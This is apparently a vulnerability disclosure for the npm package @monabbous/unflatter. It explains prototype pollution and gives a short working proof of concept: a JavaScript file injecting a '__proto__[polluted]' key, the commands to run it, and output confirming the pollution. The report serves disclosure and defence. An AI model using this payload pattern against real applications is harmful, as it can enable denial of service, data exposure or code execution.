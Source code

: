 # Description

`@monabbous/unflatter` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var a = require("@monabbous/unflatter")
console.log("Before : " + {}.polluted);
a.unflatter({"__proto__[polluted]": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i @monabbous/unflatter # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
